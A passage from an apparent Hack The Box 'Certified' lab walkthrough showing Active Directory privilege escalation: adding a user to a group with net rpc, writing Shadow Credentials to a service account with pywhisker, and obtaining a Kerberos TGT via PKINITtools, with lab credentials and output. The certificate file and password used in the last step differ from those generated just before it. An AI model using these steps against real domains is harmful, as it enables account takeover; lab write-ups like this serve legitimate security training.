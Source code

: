 - Added `judith.mader` to the `Management` Group using `net`  to have `GenericWrite` on the `management_svc` service account.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo net rpc group addmem "management" "judith.mader" -U "CERTIFIED.HTB"/"judith.mader"%"judith09" -S "certified.htb"
```

Let's now verify, and as it seems we successfully added `judith.mader` to the `Management` Group.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"

CERTIFIED\judith.mader
CERTIFIED\management_svc
```

Since we have now `GenericWrite` on the `management_svc`, it means we can write to `management_svc` attributes, and in this case we will add `Shadow Credentials` using `pywhisker`


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo ntpdate 10.10.11.41
2025-03-16 14:06:42.045696 (+0100) +25201.170780 +/- 0.112729 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25201.170780
``` 


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo python3 /opt/pywhisker/pywhisker/pywhisker.py -d certified.htb -u judith.mader -p judith09 --target management_svc --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e1b61581-2594-8f88-7648-fc95f608a217
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: Isqd14EX.pfx
[*] Must be used with password: 4PFfbzix0hFHbvg6bdVk
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx cj0VvoOI.pfx -pfx-pass 'kcOHYv0aB6Y4fP4wLW9N' certified.htb/management_svc target.ccache

2025-03-16 14:53:03,659 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-16 14:53:03,687 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-16 14:53:28,432 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-16 14:53:28,434 minikerberos INFO     31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206
INFO:minikerberos:31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206
2025-03-16 14:53:28,447 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
